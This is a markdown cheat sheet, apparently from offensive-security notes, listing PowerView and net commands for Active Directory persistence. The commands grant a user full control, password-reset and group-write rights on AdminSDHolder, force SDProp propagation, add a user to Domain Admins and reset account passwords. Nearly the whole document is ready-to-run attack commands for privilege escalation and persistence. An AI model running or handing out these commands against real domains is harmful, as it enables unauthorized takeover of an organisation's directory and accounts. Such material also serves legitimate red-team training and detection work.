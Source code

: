 #### Check if student has replication rights
```
Get-ObjectAcl -DistinguishedName "dc=<DOMAIN>,dc=<TOP DOMAIN>" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

#### Add fullcontrol permissions for a user to the adminSDHolder
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=<DOMAIN>,dc=<TOP DOMAIN>' -PrincipalIdentity <USERNAME> -Rights All -PrincipalDomain <DOMAIN> -TargetDomain <DOMAIN> -Verbose
```

#### Other interesting permissions
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=<DOMAIN>,dc=<TOP DOMAIN>' -PrincipalIdentity <USERNAME> -Rights ResetPassword -PrincipalDomain <DOMAIN> -TargetDomain <DOMAIN> -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=<DOMAIN>,dc=<TOP DOMAIN>' -PrincipalIdentity <USERNAME> -Rights WriteMembers -PrincipalDomain <DOMAIN> -TargetDomain <DOMAIN> -Verbose
```

#### Run SDProp on AD (Force the sync of AdminSDHolder)
```
Invoke-SDPropagator -showProgress -timeoutMinutes 1

#Before server 2008
Invoke-SDpropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check if user got generic all against domain admins group
```
Get-ObjectAcl -SamaccountName "Domain Admins" –ResolveGUIDS | ?{$_.identityReference -match ‘<username>’}
```

#### Add user to domain admin group
```
Add-DomainGroupMember -Identity "Domain Admins" -Members <USERNAME> -Verbose
```

or

```
Net group "domain admins" sportless /add /domain
```

#### Abuse resetpassword using powerview_dev
```
Set-DomainUserPassword -Identity <USERNAME> -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force ) -Verbose
```
